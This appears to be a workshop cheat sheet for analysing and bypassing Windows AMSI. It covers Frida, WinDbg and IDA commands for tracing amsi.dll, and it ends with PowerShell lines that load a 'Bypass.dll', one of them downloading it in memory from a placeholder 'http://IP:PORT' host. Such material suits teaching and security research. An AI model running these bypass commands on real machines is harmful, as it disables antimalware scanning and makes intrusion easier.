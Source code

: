 ## AMSI Workshop Commands

### FRIDA

```shell
frida-trace -p <PID> -x amsi.dll -i Amsi*
```

### WINDBG

```shell
dc 0x23123 -> Dump memory content

u amsi!AmsiOpenSession  -> Unassemble function

u amsi!AmsiOpenSession+0x23 L2  -> Unassemble function, two lines

u amsi!AmsiOpenSession+0x23 L1A  -> Unassemble function

bp amsi!AmsiOpenSession  -> Breakpoint

g -> continue

dc rcx L1 -> Dump content of rcx 

ed rcx 0 -> Edit rcx por 0

? 0n140736475571392 -> Convert memory position to hexadecimal 

r -> show registry 

r rax -> read a registry

dd, dc y dq -> 32bit, 32 bit in asci, 64bits

p -> continue

!vprot <address> -> Show protections of a memory region

```

### IDA 
```shell
F2 -> Breakpoint
F9 -> Run
F7 -> Step over
F8 -> Step into
```

### APIMonitor

Load amsi.dll as external DLL. Open a new PowerShell Process, execute a command and the api calls should appear.

### Load a DLL using PowerShell 
```shell
Load the DLL using PowerShell locally
[System.Reflection.Assembly]::LoadFile('Absolute_Path_to_DLL\Bypass.dll')
[Super]::Bypass()

Load the DLL using PowerShell from a remote source
[System.Reflection.Assembly]::Load((new-object net.webclient).DownloadData("http://IP:PORT/Bypass.dll"))
[Super]::Bypass()
```
